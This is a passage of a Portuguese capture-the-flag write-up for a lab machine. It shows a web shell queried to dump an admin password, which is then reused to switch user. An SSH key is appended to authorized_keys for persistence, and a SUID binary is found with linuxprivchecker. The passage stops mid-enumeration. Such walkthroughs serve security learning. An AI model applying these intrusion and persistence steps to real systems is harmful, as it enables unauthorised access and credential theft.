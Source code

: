 Não me importava com nome de variáveis e boas práticas de programacao. O importante era que o negócio funcionava. Pude comprovar quando fiz a seguinte requisição: http://10.10.10.185/ratf.php?cmd=select%20*%20from%20login; e vi o resultado:

```
select * from login;stdClass Object
(
    [id] => 1
    [username] => admin
    [password] => Th3s3usW4sK1ng
)
```

Sabia da existência da tabela de login porque tinha visto o código da página de login. Rodei outros comandos sql para verificar se existia mais alguma outra tabela mas era só isso mesmo. Aquele password para o usuário admin podia ser o de theseus.

E era mesmo:

```
www-data@ubuntu:/$ su -l theseus
su -l theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:~$ cat user.txt	
cat user.txt
031df804509ddfca08c3b4a085f41f63
```

Assim que virei theseus, voltei meus olhos para aquele servidor ssh. Queria uma shellzinha com auto-complete e tal. Botei minha chave ssh nas authorized_keys de theseus e fiquei mais feliz.

```
theseus@ubuntu:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADABABAAABAQDDVokf8pKi0W1dRUl4Ddaz/No//FNwFf4167jNBFin7zu1dKAKi2kkVqNkhw2tWBIvVUwiSZdasdjfklxjczlkj3w4pdkpfx-0zcvizjçsafs0s8HQMLy72HQ5eio8vDpmZvJJ5pRGd0PApERCOzX8cm5k5AyI5QJY/1lXMlYATA8xbqLTVuQm2gO7SypdotQWLMQWM1LG8Ypqakjf7xZ39QUs5+e9iJ++VmII8+G7j8VwLdj4tGuoRjQgwE8st0iMXt+z,xmcarlkasdfamaera brenno@nasa" >> /home/theseus/.ssh/authorized_keys
```

Logando via ssh, comecei a procurar formas de virar root. Dei uma olhada nos arquivos do usuário, processos rodando, bla bla bla. Me rendi e rodei um script, o famosinho linuxprivchecker. O único detalhe foi que tive que correr atrás de uma versão que rodasse em python3, pois na máquina não havia o 2.x. Não foi dificil de encontrar: [https://github.com/swarley7/linuxprivchecker/blob/master/linuxprivchecker.py](https://github.com/swarley7/linuxprivchecker/blob/master/linuxprivchecker.py)

Esses scripts geram um monte de coisa e é fácil de se perder quando o cara não sabe onde olhar. O que, algumas vezes, é o meu caso. Não vi nem de primeira, nem de segunda, e passou batido até numa terceira olhada. Mas depois de um longo período, percebi que havia um binário SUID como root que não era padrão. Era o arquivo: /bin/sysinfo

Acredito que se exige prática pra poder enxergar rápido esses detalhes. O nome não havia chamado minha atenção porque me parecia ser do sistema, sysinfo. Tive que filtrar e comparar com os do meu sistema para perceber que havia algo fora de linha.
Rodando o sysinfo percebi que ele busca e imprime um monte de informações do sistema, tipo assim:

```
====================Hardware Info====================
blablablabla
====================Disk Info====================
blablablalba
====================CPU Info====================
blablablabla
====================MEM Usage=====================
blablabla
```
